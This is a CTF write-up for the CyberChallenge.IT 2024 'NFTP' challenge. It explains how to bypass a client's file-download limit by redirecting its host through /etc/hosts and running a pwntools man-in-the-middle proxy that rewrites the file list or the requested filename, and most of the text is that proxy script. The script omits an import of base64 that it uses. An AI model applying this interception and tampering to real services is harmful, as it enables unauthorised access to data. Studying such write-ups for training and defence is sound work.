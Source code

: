 # CyberChallenge.IT 2024 - University CTF

## [misc] NFTP (6 solves)

The other day I got the idea for this new protocol, the New File Transfer Protocol, to list and download files. I still have to think about file upload, but that's not the point. I gave you a (partial) reference code in Python and my preliminary implementation, can you audit it for me?

Author: Matteo Protopapa <@matpro>

## Overview

The challenge implements a client that can list and get the files on the server, but the `get` function is limited by

```python
if n >= self.num_files:
    if self.verbose:
        print('Too many files')
    return 1
```

which means that we can download all but the last file, which turns to be `flag.txt`.

## Solution

Given that the binary should be hard to reverse (and patch), the easiest solution is to perform a Man In The Middle attack, using a proxy that modifies the requests or the responses during the interaction with the server.

We propose two solution paths:

- changing the filename requested (on the "client side"), so that the client asks for `flag.txt`;
- changing the list of files (on the "server side"), so that the server lists `flag.txt` before the last position and thus the client allows the user to request its content.

Clearly, to perform the MITM attack, we have to change the address resolved by the binary, e.g. changing the `/etc/hosts` so that the domain points to `127.0.0.1`.

## Exploit

An example of proxy is the following, in which we can change how it works with `PROXY_TYPE`:

- `NONE`: the proxy doesn't modify the exchanged data
- `SERVER`: the proxy modifies the list of files returned by the server
- `CLIENT`: the proxy modifies the requested filename

``` python
from pwn import listen, remote
import os

NONE   = 0
SERVER = 1
CLIENT = 2
PROXY_TYPE = SERVER


HOST = os.environ.get("HOST")
PORT = int(os.environ.get("PORT"))


def auth(l, r):
    l.sendline(r.recvline(False))
    r.sendline(l.recvline(False))
    l.sendline(r.recvline(False))


def list_files0(l, r):
    r.sendline(s)
    l.sendline(r.recvline(False))
    n = r.recvline(False)
    l.sendline(n)
    for _ in range(int(n.decode())):
        l.sendline(r.recvline(False))


def get_files0(l, r):
    r.sendline(s)
    l.sendline(r.recvline(False))
    l.sendline(r.recvline(False))


def list_files1(l, r):
    r.sendline(s)
    l.sendline(r.recvline(False))
    n = r.recvline(False)
    l.sendline(n)
    old = b'flag.txt'
    for _ in range(int(n.decode())):
        l.sendline(old)
        old = r.recvline(False)


def get_files1(l, r):
    r.sendline(s)
    l.sendline(r.recvline(False))
    l.sendline(r.recvline(False))


def list_files2(l, r):
    r.sendline(s)
    l.sendline(r.recvline(False))
    n = r.recvline(False)
    l.sendline(n)
    for _ in range(int(n.decode())):
        l.sendline(r.recvline(False))


def get_files2(l, r):
    _s = base64.b64decode(s).decode()
    _s = ' '.join(_s.split(' ')[:-1] + ['flag.txt']).encode()
    r.sendline(base64.b64encode(_s))
    l.sendline(r.recvline(False))
    l.sendline(r.recvline(False))


functions = [(list_files0, get_files0), (list_files1, get_files1), (list_files2, get_files2)]
list_files, get_files = functions[PROXY_TYPE]

l = listen(PORT)
r = remote(HOST, PORT)

auth(l, r)

while True:
    s = l.recvline(False)
    
    cmd = base64.b64decode(s).decode().split(' ')[1]

    match cmd:
        case 'exit':
            quit()
        case 'list':
            list_files(l, r)
        case 'get':
            get_files(l, r)
```

At this point, the flag can be retrieved just by interacting with the client.
